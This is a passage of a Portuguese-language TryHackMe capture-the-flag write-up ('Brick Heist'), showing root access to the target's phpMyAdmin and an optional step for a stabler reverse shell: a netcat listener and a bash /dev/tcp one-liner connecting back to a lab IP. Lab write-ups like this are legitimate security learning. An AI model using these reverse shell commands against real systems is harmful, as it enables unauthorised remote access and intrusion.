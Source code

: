 ![phpmyadmin](../images/seguranca/tryhackme/ctf/brick%20heist/myadmin%20root.png)

Acessamos! Podemos alterar e fazer qualquer registro no banco! 

<br>

### SHELL REVERSA (OPCIONAL)

Essa parte é opcional: notei que minha conexão com a shell do alvo cai a todo instante. Primeiro até pensei que fosse algo haver com a venv do python ou algum detalhe na conexão da VPN. Mas na verdade é a shell do alvo que é muito instável. Nesse caso você pode receber a shell em seu computador para melhorar a experiência, caso contrário você vai precisar ficar se reconectando no alvo a cada 2-3 minutos.

Para fazer isso abra uma conexão em seu computador usando o netcat:

`nc -lvnp <porta qualquer>`

~~~sh
nc -lvnp 6080
~~~

Acesse a shell do alvo novamente e rode:

~~~sh
bash -c 'exec bash -i &>/dev/tcp/<SEU IP>/<SUA PORTA DEFINIDA NO NETCAT> <&1'
~~~

No meu caso:

~~~sh
bash -c 'exec bash -i &>/dev/tcp/10.21.163.71/6080 <&1'
~~~
